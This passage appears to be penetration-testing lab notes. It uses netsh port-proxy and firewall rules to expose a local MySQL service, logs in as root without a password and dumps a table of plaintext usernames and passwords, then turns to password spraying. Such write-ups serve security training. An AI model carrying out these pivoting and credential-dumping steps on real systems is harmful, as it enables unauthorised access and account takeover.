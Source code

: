 ## Port 3306

```powershell
netsh interface portproxy add v4tov4 listenport=33060 listenaddress=192.168.190.96 connectport=3306 connectaddress=127.0.0.1

netsh advfirewall firewall add rule name="Forward33060" protocol=TCP dir=in localip=192.168.190.96 localport=33060 action=allow
```

Access the service from kali as `root` w/o password:
```bash
mysql -h 192.168.190.96 -P 33060 --user=root
```

Databases:
```
show databases;
+--------------------+
| Database           |
+--------------------+
| creds              |
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| test               |
+--------------------+
```

Creds database columns:
```
show columns from creds;
+-------+-------------+------+-----+---------+-------+
| Field | Type        | Null | Key | Default | Extra |
+-------+-------------+------+-----+---------+-------+
| name  | varchar(50) | NO   | PRI | NULL    |       |
| pass  | varchar(30) | NO   |     | NULL    |       |
+-------+-------------+------+-----+---------+-------+
```

Dump table:
```
SELECT * FROM creds;
+---------------+-----------------+
| name          | pass            |
+---------------+-----------------+
| administrator | Almost4There8.? |
| charlotte     | Game2On4.!      |
+---------------+-----------------+
```
=> Nice! New credentials: `charlotte:Game2On4.!`

# Password spraying:
